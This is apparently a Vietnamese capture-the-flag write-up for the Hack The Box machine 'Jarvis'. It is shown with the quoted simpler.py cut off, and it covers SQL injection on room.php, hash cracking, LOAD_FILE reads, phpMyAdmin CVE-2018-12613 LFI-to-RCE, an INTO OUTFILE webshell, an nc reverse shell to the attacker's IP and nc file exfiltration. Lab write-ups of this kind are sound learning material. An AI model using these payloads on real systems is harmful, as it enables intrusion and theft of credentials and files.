








## Introduction
Đây là write-up đầu tiên về một machine trên Hack The Box, và đây cũng chính là sự khởi đầu trong hành trình học Pentesting của mình @@. Mọi thứ vẫn còn rất lạ, vì vậy trong mỗi bài viết, mình sẽ ghi chú lại khá nhiều những điều mà mình học được trong suốt quá trình làm. Nếu có bất kỳ sai sót nào, mình hy vọng mọi người sẽ thông cảm và bỏ qua!
## Enumeration
### Nmap
Nmap - Quét full port.
```bash
$ nmap -p- --min-rate 10000 -oA nmap/alltcp 10.129.229.137
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 21:39 +0700
Nmap scan report for 10.129.229.137
Host is up (0.44s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
64999/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 10.61 seconds
```
Quét chi tiết từng port.
```bash
$ nmap -p 22,80,64999 -sC -sV -oA nmap/jarvis 10.129.229.137
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 21:40 +0700
Nmap scan report for 10.129.229.137
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Stark Hotel
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.59 seconds
```
### Website - TCP 64999
Nó chỉ in ra 1 dòng duy nhất.
```
Hey you have been banned for 90 seconds, don't be bad 
```
### Website - TCP 80
Trang web sẽ trông như này.

### Tech Stack
Response headers cho thấy rằng có sử dụng **IronWAF**. Nhưng mình tra ở google thì không có cái gì thú vị cả -.-
```bash
HTTP/1.1 200 OK
Date: Thu, 13 Aug 2026 17:03:51 GMT
Server: Apache/2.4.25 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
IronWAF: 2.0.3
Content-Length: 23628
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```
### Gobuster
```bash
$ gobuster dir -u http://10.129.229.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 40
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.137
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 317] [--> http://10.129.229.137/images/]
index.php            (Status: 200) [Size: 23628]
nav.php              (Status: 200) [Size: 1333]
footer.php           (Status: 200) [Size: 2237]
css                  (Status: 301) [Size: 314] [--> http://10.129.229.137/css/]
js                   (Status: 301) [Size: 313] [--> http://10.129.229.137/js/]
fonts                (Status: 301) [Size: 316] [--> http://10.129.229.137/fonts/]
phpmyadmin           (Status: 301) [Size: 321] [--> http://10.129.229.137/phpmyadmin/]
connection.php       (Status: 200) [Size: 0]
room.php             (Status: 302) [Size: 3024] [--> index.php]
sass                 (Status: 301) [Size: 315] [--> http://10.129.229.137/sass/]
server-status        (Status: 403) [Size: 279]
Progress: 441116 / 441116 (100.00%)
===============================================================
Finished
===============================================================
```
## Shell as www-data
### SQL Injection
Phát hiện một endpoint tại `room.php` với một tham số có tên là `cod`. Tham số này tồn tại một lỗ hổng **SQL Injection**, với payload mình test thử là `cod='`.

Mục tiêu của mình là leak được username và password để đăng nhập tại `/phpAdmin`.

Tiến hành xác định số lượng cột bằng cách sử dụng `union select`.[^union_select]. Kết quả cho thấy là 7 cột.
[^union_select]: UNION SELECT Yêu cầu câu truy vấn được nối thêm phải trả về cùng số lượng cột với câu truy vấn ban đầu. Ngoài ra, các cột tương ứng phải có kiểu dữ liệu tương thích.


Query bảng `INFORMATION_SCHEMA.SCHEMATA` để lấy thông tin về các database mà user MySQL hiện tại có thể truy cập. Cột  `SCHEMA_NAME` chứa tên của từng schema. Sau đó, sử dụng hàm `GROUP_CONCAT()`[^GROUP_CONCAT] [Document MySQL](https://dev.mysql.com/doc/refman/8.4/en/information-schema-schemata-table.html) và [Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
[^GROUP_CONCAT]: Hàm GROUP_CONCAT() được sử dụng để nối nhiều giá trị thành một chuỗi duy nhất. [Link here](https://www.geeksforgeeks.org/sql/mysql-group_concat-function/)



Output
```
hotel:
,information_schema:
,mysql:
,performance_schema:
```
Leak dữ liệu về các bảng trong database hotel.
```
Query:
GET /room.php?cod=100+UNION+SELECT+1,2,(SELECT+group_concat(TABLE_NAME,+":",+COLUMN_NAME,+"\r\n")+FROM+information_schema.COLUMNS+WHERE+TABLE_SCHEMA+=+'hotel'),4,5,6,7;--+- HTTP/1.1
Result:
room:cod
,room:name
,room:price
,room:descrip
,room:star
,room:image
,room:mini
```
Leak dữ liệu về các bảng trong database mysql.
```
Query:
GET /room.php?cod=100+UNION+SELECT+1,2,(SELECT+group_concat(TABLE_NAME,+":",+COLUMN_NAME,+"\r\n")+FROM+information_schema.COLUMNS+WHERE+TABLE_SCHEMA+=+'mysql'),4,5,6,7;--+- HTTP/1.1
Result:
column_stats:db_name
,column_stats:table_name
,column_stats:column_name
,column_stats:min_value
,column_stats:max_value
,column_stats:nulls_ratio
,column_stats:avg_length
,column_stats:avg_frequency
,column_stats:hist_size
,column_stats:hist_type
,column_stats:histogram
,columns_priv:Host
,columns_priv:Db
,columns_priv:User
,columns_priv:Table_name
,columns_priv:Column_name
,columns_priv:Timestamp
,columns_priv:Column_priv
,db:Host
,db:Db
,db:User
,db:Select_priv
,db:Insert_priv
,db:Update_priv
,db:Delete_priv
,db:Create_priv
,db:Drop_priv
,db:Grant_priv
,db:References_priv
,db:Index_priv
,db:Alter_priv
,db:Create_tmp_table_priv
,db:Lock_tables_priv
,db:Create_view_priv
,db:Show_view_priv
,db:Create_routine_priv
,db:Alter_routine_priv
,db:Execute_priv
,db:Event_priv
,db:Trigger_priv
,event:db
,event:name
,event:body
,event:definer
,event:execute_at
,event:interval_value
,event:interval_field
,event:created
,event:modified
,event:last_executed
,event:starts
,e
```
Leak dữ liệu về user trong mysql.
```
Query:
GET /room.php?cod=100+UNION+SELECT+1,2,(SELECT+group_concat(host,+":",+user,+":",+password,\r\n")+FROM+mysql.user),4,5,6,7;--+- HTTP/1.1
Result:
localhost:DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
### Way 1: Leaking user and password via Hashcat
Lưu password cần hash vào một file và kiểm tra độ dài để xác định chuỗi cần băm tương thích với **Hashmode** nào. Sử dụng `-n` để tránh việc chuỗi bị chèn `\n` vào cuối.
```bash
$ echo -n '2D2B7A5E4E637B8FBA1D17F40318F277D29964D0' > jarvis.hashes
$ wc -c jarvis.hashes
40 jarvis.hashes
```
Bây giờ, hãy tìm xem Hashcat hashmode nào có độ dài tương tự với hash mà chúng ta cần crack.
```bash
$ ./hashcat --example-hashes | grep -i mysql -B1 -A2
Hash mode #200
  Name................: MySQL323
  Category............: Database Server
  Slow.Hash...........: No
--
Hash mode #300
  Name................: MySQL4.1/MySQL5
  Category............: Database Server
  Slow.Hash...........: No
--
Hash mode #7401
  Name................: MySQL $A$ (sha256crypt)
  Category............: Database Server
  Slow.Hash...........: Yes
--
  Usage.Notice........: use this SQL query to extract the hashes:
SELECT user, CONCAT('$mysql', SUBSTR(authentication_string,1,3), LPAD(CONV(SUBSTR(authentication_string,4,3),16,10),4,0),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%';
  Advice.Notice.......: N/A
  Password.Type.......: plain
--
  Example.Hash.Format.: plain
  Example.Hash........: $mysql$A$005*F9CC98CE08892924F50A213B6BC571A2C11778C5*625479393559393965414D45316477456B484F41316E64484742577A2E3162785353526B7554584647562F
  Example.Pass........: hashcat
  Benchmark.Mask......: ?a?a?a?a?a?a?a
--
Hash mode #11200
  Name................: MySQL CRAM (SHA1)
  Category............: Database Server
  Slow.Hash...........: No
--
  Example.Hash.Format.: plain
  Example.Hash........: $mysqlna$2576670568531371763643101056213751754328*5e4be686a3149a12847caa9898247dcc05739601
  Example.Pass........: hashcat
  Benchmark.Mask......: ?a?a?a?a?a?a?a
```
Có một vấn đề nhỏ ở đây: một số hash mode không có example.hash, vì vậy mình phải tìm kiếm trên web để xác định. Xem [example_hash_wiki](https://hashcat.net/wiki/doku.php?id=example_hashes). Kết quả cho thấy mode 300 có độ dài phù hợp với hash mà mình cần.

Sau đó hashcat đã có thể crack hash và lấy được password: `imissyou`.
```bash
$ hashcat -m 300 jarvis.hashes /usr/share/wordlists/passwords/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #01: Intel(R) Graphics [0x9a60], 3563/7127 MB (512 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 650 MB (6770 MB free)

Dictionary cache built:
* Filename..: /usr/share/wordlists/passwords/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 300 (MySQL4.1/MySQL5)
Hash.Target......: 2d2b7a5e4e637b8fba1d17f40318f277d29964d0
Time.Started.....: Fri Aug 14 09:51:58 2026 (0 secs)
Time.Estimated...: Fri Aug 14 09:51:58 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/passwords/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 12459.4 kH/s (12.38ms) @ Accel:889 Loops:1 Thr:63 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 448056/14344385 (3.12%)
Rejected.........: 0/448056 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> 18052534
Hardware.Mon.#01.: N/A

Started: Fri Aug 14 09:51:52 2026
Stopped: Fri Aug 14 09:51:59 2026
```
### Way 2: Leaking via SQL Injection (LOAD_FILE)
Dựa tên kết quả Nmap: `80/tcp open http Apache httpd 2.4.25 ((Debian))` chúng ta có thể xác định rằng web server đang chạy **Apache 2.4.25 trên Debian**. Vậy nên điều đầu tiên cần làm chính là xem thử file cấu hình **Virtual Host** mặc định nằm tại: `/etc/apache2/sites-enabled/000-default.conf`. File này chứa **DocumentRoot** dùng để chỉ định thư mục chứa source code của ứng dụng web. Từ đó, chúng ta có thể truy cập chính xác đường dẫn đến từng source code của ứng dụng.
```
Query: 
GET /room.php?cod=100+UNION+SELECT+1,2,(LOAD_FILE('/etc/apache2/sites-enabled/000-default.conf')),4,5,6,7;--+- HTTP/1.1
Output:
# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	DirectoryIndex index.php
	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
```
Mình leak được source code của `index.php` sau đó thấy được đường dẫn `connection.php` có thể đó chính là source cấu hình cho database.
```php
<?php

              error_reporting(0);

              include("connection.php");

              include("roomobj.php");

              $result=$connection->query("select * from room");

              while($line=mysqli_fetch_array($result)){

                $room=new Room();

                $room->cod=$line['cod'];

                $room->name=$line['name'];

                $room->price=$line['price'];

                $room->star=$line['star'];

                $room->image=$line['image'];

                $room->mini=$line['mini'];

  

                $room->printRoom();

                }

              ?>
```
Lấy thành công user và password.
```
Query:
GET /room.php?cod=100+UNION+SELECT+1,2,(LOAD_FILE('/var/www/html/connection.php')),4,5,6,7;--+- HTTP/1.1
Output:
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
```
### Way 1: Getshell via CVE 2018-12613
[CVE-2018-12613](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e) là một lỗ hổng **Local File Inclusion (LFI)** trong **phpMyAdmin 4.8.0–4.8.1**, xảy ra do sự mâu thuẫn giữa chuỗi được dùng để **kiểm tra** và chuỗi được dùng để **include** thực tế.

Cụ thể, `index.php` gọi hàm `Core::checkPageValidity()` để xác thực tham số `target` trước khi include. Hàm này decode URL của chuỗi đầu vào, sau đó strip toàn bộ phần sau ký tự `?`, rồi đối chiếu phần còn lại với một whitelist. Tuy nhiên, lệnh `include` phía sau lại nhận **chuỗi gốc chưa được decode** — do đó, nếu attacker truyền vào `db_sql.php%3f../../../etc/passwd`, hàm kiểm tra chỉ thấy `db_sql.php` (hợp lệ trong whitelist), trong khi PHP tự decode `%3f` thành `?` khi xử lý đường dẫn, khiến file thực sự được include là `db_sql.php` kèm theo phần path traversal phía sau.

Kẻ tấn công có thể khai thác lỗ hổng này để **đọc file tùy ý** trên máy chủ thông qua **Path Traversal**. Hơn nữa, LFI có thể được nâng cấp thành **Remote Code Execution (RCE)** theo các bước sau:

1. Đăng nhập vào phpMyAdmin và thực thi câu lệnh SQL `SELECT '<?php system($_GET["cmd"]); ?>'` — payload PHP sẽ được phpMyAdmin **ghi vào session file** của người dùng hiện tại (thường nằm tại `/tmp/sess_<session_id>`).
2. Sử dụng lỗ hổng LFI để **include session file** đó, khiến PHP thực thi đoạn code bên trong.

Từ đó, attacker có thể thực thi lệnh tùy ý trên máy chủ.

Gửi query `SELECT '<?php system($_GET["cmd"]);?>'` và chạy lại url này để reverse shell: `http://10.129.229.137/phpmyadmin/index.php?cmd=nc+-e+/bin/sh+10.10.15.221+4444&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_la747sd7sarqoh3gplte14saiufjfn2q`.

Reverse shell thành công!
```
$nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.229.137 40120
```

### Way 2: Getshell via SQL Injection (INTO OUTFILE)

`INTO OUTFILE` là một tính năng hợp lệ của MySQL, cho phép xuất kết quả của một câu SELECT ra một file trên filesystem của server.
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'
```
MySQL không quan tâm đây là PHP - nó chỉ đơn thuần ghi chuỗi đó ra file. Nhưng nếu file được ghi vào thư mục web, PHP server sẽ thực thi nó khi có request truy cập.

Đã thực thi lệnh `cmd` thành công! Dựa vào đó thì có thể gửi payload reverse shell để lấy shell.

## Privilege: www-data -> pepper
Để tương tác dễ hơn trên shell.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRLZ
stty raw -echo; fg
reset
screen
```
Sau khi lấy được shell với tư cách `www-data` thông qua webshell, tiến hành kiểm tra các quyền `sudo` hiện có. Có thể thấy `www-data` được phép chạy `/var/www/Admin-Utilities/simpler.py` với tư cách user `pepper` mà **không cần nhập password**.
```bash
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
Lấy file về máy mình đọc cho tiện hơn.
```bash
Terminal Attacker:
nc -lnvp 90 > script.py
Terminal Client:
cat /var/www/Admin-Utilities/simpler.py | nc 10.10.15.221 90
```
File script.py
```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
